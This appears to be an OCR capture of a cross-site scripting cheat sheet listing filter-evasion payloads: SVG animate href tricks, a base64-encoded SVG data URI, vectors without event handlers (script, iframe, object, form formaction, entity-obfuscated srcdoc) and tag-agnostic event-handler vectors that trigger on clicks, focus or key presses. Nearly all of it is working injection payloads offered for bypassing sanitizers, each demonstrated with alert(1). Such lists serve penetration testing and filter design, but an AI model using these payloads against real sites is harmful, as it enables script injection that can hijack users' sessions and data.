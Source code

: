 ```
already URL encoded

```
<svg><a><rect width=99% height=99% /><animate attributeName=href 
to=javascript:alert(1)>
<svg><a><rect width=99% height=99% /><animate attributeName=href 
values=javascript:alert(1)>
<svg><a><rect width=99% height=99% /><animate attributeName=href to=0 
from=javascript:alert(1)>
<svg><use xlink:href=data:image/svg
%2Bxml;base64,PHN2ZyBpZD0ieCIgeG1sbnM9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAv
c3ZnIiB4bWxuczp4bGluaz0iaHR0cDovL3d3dy53My5vcmcvMTk5OS94bGluayI
%2BPGVtYmVkIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hodG1sIiBzcmM9Imp
hdmFzY3JpcHQ6YWxlcnQoMSkiLz48L3N2Zz4=%23x>
```


## Vectors without Event Handlers
Use as an alternative to event handlers, if they are not allowed. Some require user 
interaction as stated in the vector itself (also part of them).
```
<script>alert(1)</script> 
<script src=data:,alert(1)> 
<iframe src=javascript:alert(1)> 
<embed src=javascript:alert(1)> 
<a href=javascript:alert(1)>click 
<math><brute href=javascript:alert(1)>click 
<form action=javascript:alert(1)><input type=submit> 
<isindex action=javascript:alert(1) type=submit value=click> 
<form><button formaction=javascript:alert(1)>click 
<form><input formaction=javascript:alert(1) type=submit value=click> 
<form><input formaction=javascript:alert(1) type=image value=click> 
<form><input formaction=javascript:alert(1) type=image src=SOURCE> 
<isindex formaction=javascript:alert(1) type=submit value=click> 
<object data=javascript:alert(1)> 
<iframe srcdoc=<svg/o&#x6Eload&equals;alert&lpar;1)&gt;> 
<svg><script xlink:href=data:,alert(1) /> 
<math><brute xlink:href=javascript:alert(1)>click 
```


## Vectors with Agnostic Event Handlers
Use the following vectors when all known HTML tag names are not allowed. Any alphabetic
char or string can be used as tag name in place of `x`. They require user interaction as stated
by their very text content (which make part of the vectors too).
```
<x contenteditable onblur=alert(1)>lose focus! 
<x onclick=alert(1)>click this! 
<x oncopy=alert(1)>copy this! 
<x oncontextmenu=alert(1)>right click this! 
<x onauxclick=alert(1)>right click this!
<x oncut=alert(1)>copy this! 
<x ondblclick=alert(1)>double click this! 
<x ondrag=alert(1)>drag this! 
<x contenteditable onfocus=alert(1)>focus this! 
<x contenteditable oninput=alert(1)>input here! 
<x contenteditable onkeydown=alert(1)>press any key! 
<x contenteditable onkeypress=alert(1)>press any key! 
<x contenteditable onkeyup=alert(1)>press any key! 
<x onmousedown=alert(1)>click this! 
<x onmouseenter=alert(1)>hover this
<x onmousemove=alert(1)>hover this! 
<x onmouseout=alert(1)>hover this! 
<x onmouseover=alert(1)>hover this! 